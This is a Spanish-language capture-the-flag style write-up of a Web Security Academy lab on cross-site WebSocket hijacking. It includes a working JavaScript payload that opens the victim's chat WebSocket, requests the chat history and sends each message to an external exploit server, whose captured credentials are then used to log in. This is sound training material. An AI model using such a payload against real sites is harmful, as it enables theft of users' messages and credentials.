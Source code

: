 Este laboratorio presenta un escenario en el que un canal WebSocket se encuentra mal protegido, permitiendo que un atacante pueda establecer una conexión maliciosa desde otro dominio y extraer información sensible.

La aplicación incorpora un sistema de chat que utiliza WebSockets para gestionar la comunicación. Analizando la interacción con el servidor, identificamos que no existen medidas de protección contra peticiones cruzadas (como tokens CSRF o validación de origen), lo que abre la puerta a un ataque de tipo cross-site WebSocket hijacking.

El atacante construye un payload malicioso en una página controlada, capaz de establecer la conexión WebSocket directamente con el servidor del chat. Desde ahí, simula el comportamiento legítimo del cliente, solicitando el historial de conversación. Una vez recuperados los mensajes, estos se reenvían a un servidor externo (como Burp Collaborator) para su análisis.

El laboratorio se resuelve cuando logramos obtener, entre los mensajes de la víctima, sus credenciales de acceso, y las usamos para iniciar sesión en su cuenta. Esto demuestra cómo una falta de validaciones en el establecimiento de conexiones WebSocket puede comprometer la seguridad de los usuarios.

Solucion
bueno vemos que de igual forma tenemos un chat live y un exploit server el cual nos ayudaria para poder pasar toda la infomacion de este chat
para ello vamos a crear un script en JS el cual nos va a facilitar la entrada
payload (<script>
    var ws = new WebSocket("https://0acc0036041407c480cd039c00110057.web-security-academy.net/chat");
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch("https://exploit-0a9b00a20482072d802202ec01a00045.exploit-server.net/?data=" + btoa(event.data));
    };
</script>)

Este script es un **payload de exfiltración de datos**:

- Escucha mensajes de un chat o sistema WebSocket.
    
- Los envía a un servidor controlado por el atacante.
    
- Es un ejemplo de **XSS (Cross-Site Scripting) combinado con exfiltración de datos en tiempo real**.
    

💡 **En resumen:** este script roba información que fluye por la conexión WebSocket y la envía a otro servidor externo. Es el tipo de cosa que se usa en pruebas de seguridad (o ataques) para **capturar información confidencial en tiempo real**.

lo copiamos y pegamos en nuestro exploit
![Pasted_image_20250821001949.png](/Imagenes/Pasted_image_20250821001949.png)
vemos los logs
![Pasted_image_20250821002012.png](/Imagenes/Pasted_image_20250821002012.png)
tenemos info lo vamos a copiar y pegar en un archivo
![Pasted_image_20250821002231.png](/Imagenes/Pasted_image_20250821002231.png)
y esto es lo que miramos
![Pasted_image_20250821002321.png](/Imagenes/Pasted_image_20250821002321.png)
ya solo nos logeamos
![Pasted_image_20250821002414.png](/Imagenes/Pasted_image_20250821002414.png)
